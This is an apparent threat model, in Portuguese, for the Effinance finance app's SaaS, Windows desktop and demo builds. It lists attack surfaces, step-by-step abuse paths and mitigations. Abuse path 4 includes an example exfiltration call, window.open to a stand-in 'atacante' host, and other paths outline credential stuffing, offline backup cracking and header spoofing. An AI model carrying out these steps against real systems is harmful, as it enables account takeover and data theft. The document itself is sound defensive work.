

# Effinance — modelo de ameaças

Data: 2026-11-26 · Base: branch de trabalho no commit `52e2f14` · Método: skill
`security-threat-model` (`.claude/skills/security-threat-model`). Documento somente leitura sobre o
código: nenhuma correção foi feita aqui.

## Executive summary

O Effinance guarda dados financeiros e pessoais (LGPD, CPF/CNPJ) em três formas de execução com
perfis de risco bem diferentes. No **SaaS** os controles centrais estão maduros (RLS forçada com
papel sem `BYPASSRLS`, envelope KMS por workspace, sessões curtas com refresh rotativo, CSRF por
origem + JSON, CSP estrita, webhooks com HMAC/segredo e reconsulta). Os maiores riscos restantes
são **tomada de conta** (só limite por IP no login, sem bloqueio por conta, 2FA opcional, cadastro
sem verificação de e-mail) seguida de **exportação completa sem reautenticação**, e a **fronteira
de tenant nas tabelas de identidade fora do RLS** (workspaces, membros, convites, sessões,
assinaturas). No **app Windows**, o risco dominante é o **backup**: cada arquivo carrega a chave
mestra e todos os dados, protegido só por uma senha de 8+ caracteres, e sai do computador (Google
Drive e, possivelmente, OneDrive pela pasta Documentos). Seguem o banco local quase todo em claro
no perfil do usuário, a ponte IPC que entrega a chave mestra a qualquer código no renderer e o
instalador sem assinatura. A **demo** tem risco baixo (chave mestra pública, dados no navegador)
desde que ninguém a use com dados reais.

## Scope and assumptions

**Em escopo (runtime):** `apps/api/src` (Fastify, Drizzle, RLS, cripto, webhooks, importação,
Open Finance), `apps/api/drizzle` (migrações/RLS), `apps/web/src` (SPA, CSP, demo, ponte desktop),
`apps/desktop/src` (Electron main/preload, protocolo `app://`, backup, Drive), `packages/shared`
(schemas Zod = validação de entrada).

**Build/CI (tratado à parte):** `.github/workflows/{ci,desktop}.yml`, `apps/api/Dockerfile`,
`pnpm-workspace.yaml`, `apps/desktop/electron-builder.yml`, `apps/desktop/tsup.config.ts`.

**Fora de escopo:** testes (`apps/api/test`, `*.test.ts`) exceto como evidência de controle;
configuração real da conta AWS (só existe como guia em `docs/deploy-aws.md`); `.claude/` (tooling
de agentes); segurança interna de Mercado Pago, Pluggy, Google e claude.ai.

**Suposições** (tiradas dos docs; a etapa de validação com o usuário foi pulada por instrução —
as recomendações que dependem delas estão marcadas como **condicionais**):

1. O SaaS ainda **não está em produção**; quando estiver, seguirá `docs/deploy-aws.md`
   (CloudFront + WAF → ALB interno, `TRUST_PROXY=2`, `REDIS_URL` configurado, `KEY_PROVIDER=aws`,
   SES, `sa-east-1`). Cadastro é aberto ao público com teste grátis de 14 dias.
2. O app Windows é distribuído hoje só a quem tem acesso ao repositório (rascunho de release
   `desktop-latest`), sem assinatura de código; uso por uma pessoa por computador, sem BitLocker
   garantido.
3. A demo é um artifact **privado** no claude.ai, com dados fictícios; a origem que a hospeda é
   controlada pelo claude.ai e pode ser compartilhada com outros artifacts.
4. Usuários finais são pessoas físicas e pequenas empresas (família/empresa compartilham espaços);
   não há administradores internos com acesso a dados de tenants pela aplicação.
5. A pasta `Documentos` do Windows pode estar sincronizada com o OneDrive (padrão em muitas
   instalações), o que leva os backups locais para a nuvem.

**Perguntas em aberto que mudariam a priorização:**

- Haverá verificação de e-mail no cadastro e 2FA obrigatório para donos de espaço com membros? (TM-002)
- O app Windows será distribuído a terceiros (fora do repositório)? Quando, com assinatura? (TM-008)
- Qual a política de senha do backup que o produto aceita impor (tamanho/força)? (TM-004)

## System model

### Primary components

| Componente | O que é | Evidência |
| --- | --- | --- |
| SPA web | React 19 + Vite, servida estática (S3/CloudFront); CSP por `<meta>` e cabeçalho | `apps/web/index.html`, `apps/web/src/lib/csp.ts`, `apps/web/vite.config.ts` (`cspMeta`) |
| API | Fastify 5 em `/api`, JSON only, helmet, CORS restrito, CSRF por origem/JSON, rate limit | `apps/api/src/app.ts` (`buildApp`, hook `onRequest` CSRF) |
| Autenticação | JWT HS256 15 min (cookie `effinance_token` ou Bearer) + refresh opaco rotativo; checagem de sessão/membro por requisição | `apps/api/src/lib/auth.ts` (`authenticate`), `apps/api/src/modules/auth/sessions.ts`, `modules/workspaces/access.ts` (`loadAccess`) |
| Fronteira de tenant | Transação com `role=effinance_app` + `app.workspace_id` (RLS) | `apps/api/src/lib/tenant.ts` (`withTenant`), `lib/tenant-routes.ts`, `lib/tenant-scope.ts`, `apps/api/drizzle/0003_tenant_rls.sql` |
| Cripto de campos | AES-256-GCM por workspace (envelope local/KMS), índice cego HMAC p/ CPF/CNPJ | `apps/api/src/lib/crypto/{keyring,field-cipher,aws-kms,platform-keys}.ts` |
| PostgreSQL (RDS) | Tabelas financeiras com RLS forçada; identidade/assinatura fora do RLS | `apps/api/drizzle/*.sql`, `apps/api/test/db-roles.ts` (`IDENTITY_GRANTS`) |
| Cobrança | Mercado Pago (preapproval) + webhook HMAC; `fake` em dev/demo | `apps/api/src/modules/billing/{service,routes}.ts`, `providers/{mercadopago,signature}.ts` |
| Open Finance | Pluggy (fetch puro), webhook com segredo no caminho; `fake` em dev/demo | `apps/api/src/modules/open-finance/{routes,service,webhooks}.ts`, `providers/pluggy.ts` |
| Importação | Parsers OFX/CSV puros com limites | `apps/api/src/modules/imports/{ofx,csv,parse,routes}.ts`, `packages/shared/src/integrations.ts` |
| E-mail | SES/webhook (texto puro) para redefinição de senha e convites | `apps/api/src/lib/mailer.ts`, `lib/mailer-ses.ts` |
| Demo | Mesmas rotas da API no navegador sobre PGlite (IndexedDB), chave mestra pública, sessão em `localStorage` | `apps/web/src/demo/{server,session,auth-routes}.ts` |
| Electron main | Janela `sandbox`+`contextIsolation`, protocolo `app://effinance`, IPC, cofre `safeStorage` | `apps/desktop/src/{main,protocol,store}.ts` |
| Preload | Ponte `window.effinanceDesktop` (master key, backup, Drive) | `apps/desktop/src/preload.ts`, `apps/web/src/desktop/bridge.ts` |
| Backup desktop | Arquivo `.txt` AES-256-GCM/PBKDF2 600k com `{masterKey, snapshot}`; local + Drive (30 dias) | `apps/desktop/src/{backup-file,backup-service,local-backups,drive}.ts`, `apps/web/src/desktop/{snapshot,runtime}.ts` |
| CI/Release | CI sem segredos; workflow Windows com `contents: write` e secrets do OAuth Google | `.github/workflows/ci.yml`, `.github/workflows/desktop.yml` |

### Data flows and trust boundaries

- **Internet (navegador) → CloudFront/WAF → ALB → API** — credenciais, cookies de sessão, dados
  financeiros, CPF/CNPJ, arquivos OFX/CSV (até ~8,6 MiB). HTTPS (TLS 1.2+); WAF e rate limit por
  IP (`@fastify/rate-limit`, Redis opcional); CSRF: cookies `SameSite` + origem permitida + JSON
  obrigatório em mutações (`app.ts`); corpo validado por Zod (`fastify-type-provider-zod`,
  `packages/shared/src/schemas.ts`); parser JSON padrão rejeita `__proto__`. IP do cliente vem de
  `X-Forwarded-For` limitado por `TRUST_PROXY` (padrão 1 no código, 2 no guia).
- **API → PostgreSQL** — SQL parametrizado (Drizzle), TLS `verify-full` exigido em produção
  (`env.ts`). Dois caminhos: (a) login `effinance_api` (NOINHERIT, sem grants financeiros) para
  identidade/sessões/assinaturas, com checagem explícita de papel; (b) `SET LOCAL ROLE
  effinance_app` + `app.workspace_id` + `statement_timeout 15s` para tabelas financeiras (RLS
  `FORCE`).
- **API → AWS KMS / Secrets Manager** — chaves de dados por workspace (`GenerateDataKey`/`Decrypt`
  com contexto `workspaceId`), segredos pequenos (TOTP, `platform_keys`). IAM da task role + política
  de chave com contexto obrigatório e `aws:SourceVpce` (guia, §2).
- **API → Mercado Pago / Pluggy / SES** (saída HTTPS, hosts fixos) — tokens de API do servidor;
  dados de assinatura; ids de item/conta e transações bancárias. Pluggy: `next` só usa o parâmetro
  `after` (`providers/pluggy.ts`); nenhum URL vindo do cliente é buscado.
- **Mercado Pago → `POST /api/billing/webhooks/mercadopago`** (público) — notificação; HMAC
  `x-signature` com tolerância de 5 min e comparação em tempo constante (`signature.ts`),
  idempotência `billing_events`, status sempre reconsultado na API do MP; plano derivado do valor
  cobrado (`mercadopago.ts`).
- **Pluggy → `POST /api/open-finance/webhooks/:provider/:secret`** (público) — evento; segredo do
  caminho comparado em tempo constante, envelope validado, `bodyLimit` 64 KiB, idempotência
  `open_finance_events`; `itemId` só roteia (HMAC no índice global) e tudo é relido do provedor com
  `clientUserId === workspaceId`.
- **Navegador → widget Pluggy Connect (iframe)** — consentimento bancário fora da origem do
  Effinance; único `frame-src` permitido (`csp.ts`).
- **API → caixa de e-mail do usuário** — links de redefinição (token no fragmento, 30 min, uso
  único, hash) e convites (7 dias, uso único, SHA-256); texto puro, assunto sanitizado (`oneLine`).
- **Renderer desktop (`app://effinance`) → Electron main (IPC)** — chave mestra, senha do backup,
  credenciais OAuth, conteúdo de backup, snapshot do banco. `contextIsolation`, `sandbox`,
  `nodeIntegration:false`; canais fixos via `contextBridge`; **sem validação do remetente**
  (`senderFrame`) nos `ipcMain.handle` (`main.ts`). Navegação para fora de `app://effinance/` é
  bloqueada; `window.open` de `http(s)` vai para `shell.openExternal`.
- **Electron main → disco do usuário** — `secrets.bin` (DPAPI via `safeStorage`), `settings.json`,
  banco PGlite no IndexedDB do perfil (sem DPAPI), backups em `Documentos\Effinance\Backups`.
- **Electron main → Google (OAuth + Drive API)** — loopback `127.0.0.1:<porta aleatória>`, PKCE
  S256 + `state`, escopo `drive.file`; refresh token no cofre DPAPI (`drive.ts`).
- **Arquivo externo → app** — OFX/CSV importado (SaaS, demo e desktop) e arquivo de backup
  restaurado (desktop: diálogo de arquivo, pasta local ou Drive) → `openBackup` → `importSnapshot`
  como superusuário PGlite com `session_replication_role = replica`.
- **claude.ai (host do artifact) → demo** — HTML/JS da demo; sem CSP própria (o host injeta a
  sua); dados em IndexedDB/`localStorage` da origem do artifact.
- **GitHub Actions → release `desktop-latest`** — instalador NSIS sem assinatura; secrets
  `GOOGLE_OAUTH_CLIENT_ID/SECRET` embutidos no `main.cjs` (`tsup.config.ts`).

#### Diagram

## Assets and security objectives

| Asset | Why it matters | Security objective (C/I/A) |
| --- | --- | --- |
| Lançamentos, saldos, faturas, metas, investimentos (por workspace) | Dado financeiro pessoal/empresarial; vazamento entre tenants é incidente LGPD | C, I |
| Contatos com CPF/CNPJ, e-mail, telefone, endereço; observações | Dado pessoal de terceiros (LGPD); cifrado por campo | C |
| Credenciais e sessões (hash scrypt, refresh tokens, JWT, sementes TOTP, códigos de recuperação) | Tomada de conta = acesso a todos os espaços do usuário | C, I |
| Fronteira de tenant (`workspace_members`, papéis, convites, `app.workspace_id`) | Define quem vê o quê; erro aqui é vazamento entre assinantes | I |
| Chaves: `JWT_SECRET`, CMK `effinance-data`, chaves de dados por workspace, `platform_keys` | Comprometimento permite forjar sessões ou decifrar tudo | C, I, A |
| Segredos de integração: `MP_ACCESS_TOKEN`/`MP_WEBHOOK_SECRET`, `PLUGGY_CLIENT_*`, `OPEN_FINANCE_WEBHOOK_SECRET` | Acesso a cobrança e a dados bancários coletados pelo agregador | C, I |
| Estado de assinatura (`subscriptions`, `billing_events`) | Integridade da receita; escrita bloqueada sem assinatura (402) | I |
| Chave mestra do desktop (`secrets.bin`, DPAPI) e senha do backup | Abre todos os campos cifrados e todos os backups | C |
| Arquivos de backup (local, Drive, possivelmente OneDrive) | Cópia integral do banco + chave mestra fora do computador | C, I, A |
| Banco local PGlite (IndexedDB do perfil) | Dados reais do usuário desktop, maior parte em claro | C, I, A |
| Refresh token do Google (`drive.file`) | Lê/apaga os backups no Drive | C, I |
| Instalador e bundle do renderer | Integridade do código que roda com os dados do usuário | I |
| Logs de auditoria e de acesso (CloudWatch, CloudFront/ALB/WAF) | Detecção/resposta; logs de borda contêm o segredo do webhook no caminho | I, C |
| Disponibilidade da API e do banco | Serviço pago; tarefas Fargate e conexões RDS compartilhadas | A |

## Attacker model

### Capabilities

- Atacante remoto anônimo na internet: chama rotas públicas (`/auth/*`, `/invites/:token`,
  `/billing/plans`, webhooks), automatiza tentativas a partir de muitos IPs (proxies/botnets).
- **Usuário autenticado comum** (cadastro aberto + teste grátis): cria workspaces, envia arquivos
  OFX/CSV grandes, chama relatórios pesados, convida e-mails arbitrários, tenta IDs de outros
  tenants.
- Membro com papel baixo (`viewer`/`editor`) de um espaço compartilhado tentando escalar papel ou
  agir em outro espaço.
- Phishing/engenharia social: entrega de arquivos (OFX, backup + senha, instalador falso) e links.
- Comprometimento de dependência npm (cadeia de suprimentos) que entra no bundle da web, do
  renderer desktop ou da imagem da API.
- Acesso a contas de nuvem pessoais do usuário (Google, Microsoft/OneDrive) por senha vazada.
- Furto/perda do notebook do usuário desktop; outro usuário local do Windows.

### Non-capabilities

- Não controla a rede entre CloudFront, ALB, ECS e RDS (VPC privada, TLS) nem tem credenciais AWS
  (SSO+MFA, OIDC no CI — suposição do guia).
- Não lê `secrets.bin` sem rodar código **como o usuário do Windows** (DPAPI); malware com essa
  identidade já é comprometimento total e não é tratado como ameaça separada.
- Não forja webhooks sem os segredos do MP/Pluggy; não injeta transações via webhook (tudo é
  relido do provedor).
- Não forja JWT útil só com o segredo: `loadAccess` também exige sessão viva cujo `familyId` é o
  `sid` e membro ativo (`access.ts`), então precisaria ainda de um `sid` válido da vítima.
- Na demo e no desktop, RLS e "login local" **não são** fronteira de segurança: atacante e vítima
  dividem o mesmo contexto JavaScript; a proteção real é a do SO/navegador.
- Mercado Pago: o cartão nunca passa pelo Effinance (sem escopo PCI).

## Entry points and attack surfaces

| Surface | How reached | Trust boundary | Notes | Evidence (repo path / symbol) |
| --- | --- | --- | --- | --- |
| `POST /api/auth/{register,login,mfa/verify,refresh,logout,password/forgot,password/reset}` | Internet, sem sessão | Internet → API | Limite só por IP (5–30/min); falha de senha sem bloqueio por conta; registro revela e-mail existente (409) e não verifica e-mail | `apps/api/src/modules/auth/routes.ts` (`limit`), `auth/service.ts` (`register`, `checkPassword`, `resetPassword`) |
| Rotas autenticadas de conta (`/auth/me`, `/auth/password`, `/auth/mfa/*`, `/auth/sessions`, `/auth/switch-workspace`) | Sessão | Usuário → identidade (fora do RLS) | `mfa/enable` pede senha se login > 15 min; troca de senha revoga outras sessões | `auth/routes.ts`, `auth/mfa.ts`, `auth/sessions.ts` |
| Workspaces, membros, convites, auditoria, exportação LGPD | Sessão (owner p/ gestão) | Usuário → identidade (fora do RLS) | Checagem manual de papel (`assertOwner`); `GET /current/export` devolve tudo decifrado sem reautenticação | `apps/api/src/modules/workspaces/{routes,service,export,access}.ts` |
| `GET /api/invites/:token`, `POST /api/invites/:token/accept` | Link por e-mail | Internet → API | Token SHA-256, 7 dias, uso único, aceite exige mesmo e-mail logado | `workspaces/routes.ts` (`inviteRoutes`) |
| Rotas financeiras (categorias, contas, cartões, faturas, lançamentos, transferências, metas, contatos, investimentos, extrato, dashboard, relatórios, busca) | Sessão | Usuário → RLS | Montadas por `tenantRoutes`: auth + papel + assinatura + transação RLS; relatórios até 36 meses | `apps/api/src/routes.ts` (`domainRoutes`), `lib/tenant-routes.ts` |
| Importação `POST /api/imports/preview`, `POST /api/imports`, `DELETE /api/imports/:id` | Sessão (editor/owner) | Arquivo do usuário → parser → RLS | OFX SGML/XML e CSV; 3 M caracteres, 3000 linhas, corpo ~8,6 MiB; 30/20 req/min por IP | `modules/imports/{routes,ofx,csv,parse}.ts`, `packages/shared/src/integrations.ts` (`MAX_IMPORT_*`) |
| Open Finance (connect-token, connections, accounts, sync, delete) | Sessão (editor/owner) | Usuário → API → Pluggy | Item verificado no provedor (`clientUserId`), só conectores Open Finance; rotas `dev/*` só com provedor `fake` | `modules/open-finance/{routes,service}.ts` |
| Webhook Pluggy `POST /api/open-finance/webhooks/:provider/:secret` | Internet | Pluggy → API | Segredo no caminho (mascarado no log da app, **não** nos logs de borda) | `open-finance/routes.ts`, `open-finance/webhooks.ts`, `apps/api/src/lib/log.ts` |
| Webhook Mercado Pago `POST /api/billing/webhooks/mercadopago` | Internet | MP → API | HMAC + janela 5 min + reconsulta; `eventId` vem do corpo (não assinado) | `billing/routes.ts`, `billing/providers/{mercadopago,signature}.ts`, `billing/service.ts` (`handleWebhook`) |
| Checkout / `POST /api/billing/dev/activate` | Sessão (owner) | Usuário → MP | `dev/activate` 404 fora do provedor fake; fake proibido em produção | `billing/service.ts` (`devActivate`), `apps/api/src/env.ts` |
| SPA: redirecionamentos pós-login e checkout | Navegador | Web → outros sites | Allowlist de caminho interno e hosts do MP | `apps/web/src/lib/safe-url.ts` |
| Widget Pluggy Connect (iframe + postMessage) | Navegador | Web ↔ Pluggy | Único terceiro na CSP; `theme` restrito porque o SDK usa `innerHTML` | `apps/web/src/features/open-finance/pluggy-connect.ts`, `lib/csp.ts` |
| Protocolo `app://effinance/` | Renderer desktop | Disco → renderer | Resolve caminho dentro de `renderer/`, bloqueia `..`; `nosniff` | `apps/desktop/src/protocol.ts` (`resolveAsset`) |
| IPC `desktop:master-key`, `backup:*`, `drive:*`, `desktop:snapshot-*` | Renderer desktop | Renderer → main | Sem checagem de remetente; `finish-restore` grava chave mestra vinda do renderer; `drive:configure` troca o cliente OAuth | `apps/desktop/src/main.ts`, `preload.ts` |
| `window.open` / navegação no desktop | Renderer | Renderer → navegador do SO | Qualquer `https?://` vai para `shell.openExternal` (canal de saída fora da CSP) | `main.ts` (`setWindowOpenHandler`) |
| Arquivo de backup restaurado | Diálogo de arquivo, pasta local, Drive | Arquivo → main → renderer → PGlite | AES-GCM autenticado; após decifrar: `gunzipSync` sem limite, `truncate … cascade` e insert com triggers/FKs desligados | `backup-file.ts` (`openBackup`), `apps/web/src/desktop/{runtime,snapshot}.ts` (`restoreBackup`, `importSnapshot`) |
| OAuth Google loopback | Navegador do SO → `127.0.0.1` | SO → main | PKCE + `state`; servidor só durante o login (5 min) | `apps/desktop/src/drive.ts` (`connect`) |
| Login local / cadastro local (desktop) | Tela do app | Usuário local → renderer | Senha só abre a UI; sessão em `localStorage` | `apps/web/src/demo/{auth-routes,session}.ts` |
| Demo (artifact) | Link claude.ai | Host → demo | Chave mestra pública (`demoKeyProvider`), credenciais públicas, sem CSP própria | `apps/web/src/demo/server.ts` |
| Release do instalador | GitHub Releases (rascunho) | CI → usuário | Sem assinatura; sem atualização automática | `.github/workflows/desktop.yml`, `apps/desktop/electron-builder.yml` |

## Top abuse paths

1. **Tomada de conta e saque de dados (SaaS):** obter lista de e-mails/senhas vazadas → testar em
   `POST /auth/login` distribuindo por muitos IPs (10/min/IP, sem bloqueio por conta) → em conta sem
   2FA, abrir sessão → `GET /workspaces/current/export` (owner) baixa todos os dados decifrados de
   cada espaço, sem pedir senha → vazamento LGPD de CPF/CNPJ e finanças.
2. **Backup como alvo offline (desktop):** comprometer a conta Google da vítima (ou o OneDrive que
   sincroniza `Documentos`) → baixar `effinance-backup-*.txt` → força bruta offline da senha de 8+
   caracteres (PBKDF2-SHA256 600k, paralelizável em GPU) → payload traz `masterKey` + snapshot →
   todos os dados e campos cifrados em claro.
3. **Vazamento entre tenants por rota de identidade:** usuário autenticado chama rotas fora do RLS
   (membros, convites, sessões, assinatura, `switch-workspace`) com IDs de outro espaço → uma
   checagem de papel/escopo esquecida em código novo → lê ou altera membros/assinatura de outro
   assinante, ou se adiciona a ele e passa a ler pelo RLS legítimo.
4. **Dependência maliciosa no renderer desktop:** pacote comprometido entra no bundle
   `dist-desktop` → chama `window.effinanceDesktop.getMasterKey()` e lê o banco pelo PGlite →
   exfiltra por `window.open('https://atacante/?d=…')` (vai para `shell.openExternal`, fora da
   CSP) → dados e chave mestra de todos os usuários do app.
5. **Instalador trojanizado:** atacante publica "Effinance-Setup.exe" modificado (site falso,
   anexo) → usuário já orientado a clicar "Executar assim mesmo" no SmartScreen → código como o
   usuário lê `secrets.bin` (DPAPI) e o banco → comprometimento total.
6. **Burlar limites e envenenar auditoria:** com `TRUST_PROXY` errado, origem alcançável fora do
   CloudFront ou sem `REDIS_URL` → forjar `X-Forwarded-For` ou multiplicar o limite pelo número de
   tarefas → força bruta de login/2FA/redefinição em escala e IPs falsos nos logs de auditoria.
7. **Restauração maliciosa (desktop):** enviar "backup modelo" + senha à vítima → restaurar apaga o
   banco local inteiro (`truncate … cascade`) e grava a chave mestra e a senha de backup do atacante
   → backups seguintes (Drive/Documentos) passam a usar uma senha que o atacante conhece; o backup
   do dia é sobrescrito ao fechar.
8. **DoS autenticado barato:** contas de teste grátis enviam prévias de importação de ~8,6 MiB
   (parse no event loop) e relatórios de 36 meses em paralelo → CPU das tarefas Fargate e conexões
   do RDS esgotadas → indisponibilidade para todos os tenants.

## Threat model table

| Threat ID | Threat source | Prerequisites | Threat action | Impact | Impacted assets | Existing controls (evidence) | Gaps | Recommended mitigations | Detection ideas | Likelihood | Impact severity | Priority |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| TM-001 | Usuário autenticado malicioso | Conta própria (cadastro aberto) e conhecimento de IDs alheios | Abusa de rota de identidade fora do RLS (membros, convites, sessões, assinatura, switch-workspace) ou de rota nova montada fora de `tenantRoutes`/`tenantScope` | Leitura/alteração de dados de outro tenant; autoadição a espaço alheio | Fronteira de tenant, dados financeiros, assinatura | RLS `FORCE` + `effinance_app` (`drizzle/0003_tenant_rls.sql`, `lib/tenant.ts`); login da API sem grants financeiros (`test/db-roles.ts`); `loadAccess` por requisição (`workspaces/access.ts`); claims UUID (`lib/auth.ts`) | Tabelas de identidade dependem só de checagem manual; ritmo alto de módulos novos (ex.: `investments`, migração 0008 sem FK composta) | Teste de integração genérico que percorre `app.printRoutes()` e falha se rota autenticada não estiver em `tenantRoutes`/`scopedRoutes`/allowlist; testes de IDOR cruzado para cada rota de `workspaces/routes.ts` e `auth/routes.ts`; políticas RLS também em `workspace_members`/`workspace_invites` (com `app.user_id`) | Alarme para 403/404 em série por usuário em rotas de membros/convites; auditoria `member.*`/`invite.*` fora do padrão | low | high | medium |
| TM-002 | Atacante remoto (credential stuffing/phishing) | Senha reutilizada/vazada; vítima sem 2FA | Login distribuído por IPs → sessão → exportação LGPD completa | Vazamento total dos espaços da vítima; alteração de dados | Credenciais, sessões, dados financeiros, CPF/CNPJ | scrypt + hash de guarda de tempo (`auth/service.ts` `checkPassword`); limite por IP (`auth/routes.ts`); 2FA TOTP opcional com 10 falhas/15 min (`auth/mfa.ts`); WAF ATP opcional (guia §8); auditoria `auth.login_failed` | Sem bloqueio/atraso progressivo por conta; sem verificação de e-mail; 409 no cadastro enumera contas; exportação sem reautenticação; 2FA não exigido de donos com membros | Limite por conta (ex.: 10 falhas/15 min, como no 2FA) + atraso exponencial; checagem de senha vazada (k-anonymity HIBP) no cadastro/troca; verificação de e-mail antes de criar sessão; reautenticação (senha ou TOTP, janela de 15 min já usada em `mfa/enable`) para `GET /workspaces/current/export` e `DELETE /auth/me`; e-mail de "novo login/exportação"; condicional: exigir 2FA de owners de espaços com membros | Metric filter `auth.login_failed` por conta e por ASN; alerta em `data.exported` fora do horário/IP habitual | medium | high | high |
| TM-003 | Pacote npm comprometido ou XSS na SPA | Dependência maliciosa publicada (passa `minimumReleaseAge`) ou bug de renderização | Script roda na origem; age como o usuário (cookies httpOnly vão junto) e exfiltra por navegação | Exportação e alteração de dados de quem abrir a página | Sessões, dados financeiros | CSP sem `unsafe-inline` em scripts, `connect-src 'self'`, `frame-src` só Pluggy (`lib/csp.ts`); React sem `dangerouslySetInnerHTML`; `safe-url.ts`; pnpm por hash + `minimumReleaseAge` + `strictDepBuilds` (`pnpm-workspace.yaml`); `pnpm audit` + gitleaks no CI | CSP não impede navegação de topo (exfiltração por `location`); `style-src 'unsafe-inline'`; sem SRI/monitoramento de mudanças no bundle | Cabeçalho `Content-Security-Policy-Report-Only`/`report-to` para violações; revisão de diff do lockfile (CODEOWNERS já previsto); reautenticação para exportação (TM-002) limita o dano | Relatórios de CSP; alerta de `data.exported` em massa | low | high | medium |
| TM-004 | Atacante com acesso à nuvem pessoal da vítima | Conta Google/OneDrive comprometida ou arquivo de backup copiado | Força bruta offline da senha do backup (8+ caracteres, PBKDF2 600k) | Todos os dados + chave mestra em claro | Backups, chave mestra, dados do desktop, CPF/CNPJ | AES-256-GCM com cabeçalho autenticado, PBKDF2-SHA256 600k, limites de iterações (`backup-file.ts`); `drive.file` (`drive.ts`); retenção 30 dias | Senha mínima fraca (8, sem medidor); KDF não "memory-hard"; backups em `Documentos` podem ir ao OneDrive sem o usuário saber; senha guardada no cofre e reaproveitada em todos os backups | Exigir senha forte (≥12 caracteres ou frase, medidor tipo zxcvbn) em `backup-service.ts` `setPassword`; trocar KDF para scrypt/Argon2id (o cabeçalho já tem `kdf`, migração compatível); avisar quando a pasta estiver sob OneDrive e permitir escolher outra; opção de "chave de recuperação" aleatória impressa em vez de senha | Mostrar na tela de Backup data/origem dos últimos acessos ao Drive (API `revisions`/`lastModifyingUser`) | medium | high | high |
| TM-005 | Ladrão do notebook / outro usuário local / malware sem privilégio de DPAPI | Disco sem BitLocker ou acesso ao perfil | Lê o IndexedDB do PGlite no perfil do app; apaga/edita via restauração na tela inicial | Leitura dos lançamentos, saldos e nomes (só CPF/contatos/observações cifrados); perda de dados | Banco local, dados financeiros | `secrets.bin` com DPAPI (`store.ts`, modo 0600); campos sensíveis cifrados (`lib/crypto/field-cipher.ts`); `relaxedDurability` desligado | Maior parte das colunas em claro no disco; login local não é barreira criptográfica (`demo/session.ts`); restauração disponível sem login | Documentar e checar BitLocker/criptografia de disco no primeiro uso; condicional: cifrar o diretório do PGlite (ou usar SQLCipher/arquivo cifrado com a chave do DPAPI); exigir senha local para restaurar quando já houver dados | Registrar restaurações (data, origem) em `settings.json` e mostrar no app | medium | medium | medium |
| TM-006 | Código malicioso no renderer desktop (dependência, XSS via dado importado/restaurado) | Execução de JS em `app://effinance` | Usa a ponte IPC: `getMasterKey`, `finishRestore`, `drive:configure`; exfiltra via `window.open` → `shell.openExternal` | Chave mestra e dados exfiltrados; troca do cliente OAuth | Chave mestra, dados, refresh token Google | `contextIsolation`, `sandbox`, `nodeIntegration:false` (`main.ts`); `will-navigate` restrito; CSP com `frame-src 'none'` e `connect-src 'self'` no build desktop (`vite.config.ts`, `csp.ts`); canais fixos no preload | Handlers não validam `event.senderFrame.url`; `openExternal` aceita qualquer https; a chave mestra cruza para o renderer (necessário hoje para o PGlite) | Validar remetente em todo `ipcMain.handle` (origem `app://effinance` e frame principal); allowlist de hosts para `openExternal` (Google, efficio.com.br, MP) e confirmação para os demais; mover `drive:configure` para trás de confirmação nativa (`dialog`); limitar `getMasterKey` a uma chamada por carga | Log no main de chamadas IPC fora do fluxo esperado (ex.: `getMasterKey` repetido) | low | high | medium |
| TM-007 | Engenharia social com backup preparado | Vítima aceita restaurar arquivo + senha de terceiros | Restauração apaga o banco local e grava chave mestra/senha do atacante; backups futuros cifrados com senha conhecida | Perda de dados; backups futuros legíveis pelo atacante se ele alcançar o Drive/arquivo | Banco local, backups | GCM autenticado; checagem de formato/migrações (`snapshot.ts` `parseSnapshot`); chave mestra validada como hex 64 (`backup-service.ts` `finishRestore`); transação única | Sem cópia automática antes de restaurar; senha do backup herdada do arquivo restaurado; `gunzipSync` sem `maxOutputLength` | Backup automático do estado atual antes de restaurar; após restaurar, pedir nova senha de backup em vez de herdar; `gunzipSync(…, { maxOutputLength })`; avisar que restaurar substitui tudo | Registro de restauração visível ao usuário | low | medium | low |
